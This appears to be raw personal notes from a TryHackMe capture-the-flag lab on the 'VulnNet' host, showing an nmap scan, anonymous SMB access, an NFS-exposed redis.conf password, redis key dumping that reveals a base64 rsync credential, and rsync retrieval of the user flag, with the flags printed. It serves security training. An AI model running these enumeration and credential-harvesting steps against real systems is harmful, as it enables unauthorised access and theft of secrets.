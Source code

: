 thm - 2021_05_25 VulnNet

──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ nmap -sV -sC -o nmap 10.10.178.186                              4 ⚙

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 11:00 EDT
Nmap scan report for 10.10.178.186
Host is up (0.27s latency).
Not shown: 993 closed ports
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36067/tcp   mountd
|   100005  1,2,3      40092/udp   mountd
|   100005  1,2,3      41676/udp6  mountd
|   100005  1,2,3      48177/tcp6  mountd
|   100021  1,3,4      33235/tcp6  nlockmgr
|   100021  1,3,4      33435/tcp   nlockmgr
|   100021  1,3,4      40555/udp   nlockmgr
|   100021  1,3,4      45252/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2021-05-25T17:01:32+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-25T15:01:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.49 seconds

139 and 445 seems to be the target given that there's no http port


└─$ smbclient -L \\\\10.10.178.186\\ -N                         1 ⨯ 4 ⚙

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
                                                                        
┌──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ smbclient -L \\\\10.10.178.186\\shares\\ -N                     4 ⚙

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
                                                                        
┌──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ smbclient \\\\10.10.178.186\\shares\\ -N                        4 ⚙
Try "help" to get a list of possible commands.
smb: \> 


smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021
pu
                11309648 blocks of size 1024. 3276884 blocks available
smb: \temp\> get services.txt
getting file \temp\services.txt of size 38 as services.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \temp\> 


┌──(kali㉿kali)-[/tmp]
└─$ ls                                                                                                                     3 ⚙
burp18175702294850329231.tmp
burp7295545103297033735.tmp
hsperfdata_kali
NNFS
ssh-IL4vLu5mm19n
systemd-private-404335ddf97b464da3ada14d9dc16ebf-colord.service-TP2P2f
systemd-private-404335ddf97b464da3ada14d9dc16ebf-haveged.service-LqE7vj
systemd-private-404335ddf97b464da3ada14d9dc16ebf-ModemManager.service-ZfrJRg
systemd-private-404335ddf97b464da3ada14d9dc16ebf-systemd-logind.service-1BCDdi
systemd-private-404335ddf97b464da3ada14d9dc16ebf-upower.service-aW4spi
Temp-9ca31cd1-96f4-410b-9bd3-37b0d4d03fed
Temp-de34e354-f03b-42aa-b99f-5fc6572c2941
VMwareDnD
vmware-root_522-2965382515
                                                                                                                               
┌──(kali㉿kali)-[/tmp]
└─$ cd NNFS                                                                                                                3 ⚙
                                                                                                                               
┌──(kali㉿kali)-[/tmp/NNFS]
└─$ ls                                                                                                                     3 ⚙
hp  init  opt  profile.d  redis  vim  wildmidi
                                                                                                                               
┌──(kali㉿kali)-[/tmp/NNFS]
└─$  NNFS       


┌──(kali㉿kali)-[/tmp/NNFS]
└─$ ls                                                                                                                 1 ⨯ 3 ⚙
hp  init  opt  profile.d  redis  vim  wildmidi
                                                                                                                               
┌──(kali㉿kali)-[/tmp/NNFS]
└─$ cd redis                                                                                                               3 ⚙
                                                                                                                               
┌──(kali㉿kali)-[/tmp/NNFS/redis]
└─$ cat redis.conf | grep "pass"                                                                                           3 ⚙
# 2) No password is configured.
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
requirepass "B65Hx562F@ggAZ@F"
# resync is enough, just passing the portion of data the slave missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
# requirepass foobared


                                                                                                      
┌──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ redis-cli -h 10.10.178.186 -p 6379 -a "B65Hx562F@ggAZ@F"
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.178.186:6379> ls
(error) ERR unknown command 'ls'
10.10.178.186:6379> KEYS *
1) "internal flag"
2) "int"
3) "authlist"
4) "marketlist"
5) "tmp"
10.10.178.186:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.178.186:6379> 


10.10.178.186:6379> type authlist
list
10.10.178.186:6379> lrange authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v


┌──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ rsync -v rsync://rsync-connect@'10.10.178.186'/files/sys-internal/user.txt 
Password: 
user.txt
sent 43 bytes  received 128 bytes  31.09 bytes/sec
total size is 38  speedup is 0.22
                                                                                                   
business-req.txt  data.txt  dog  mnt  mount0  nmap  services.txt  user.txt
                                                                                                                                                                                                                
┌──(kali㉿kali)-[~/tryhackme/vulnet]
└─$ cat user.txt                                                                                                                                                                                            2 ⚙
THM{da7c20696831f253e0afaca8b83c07ab}

to come back for root flag
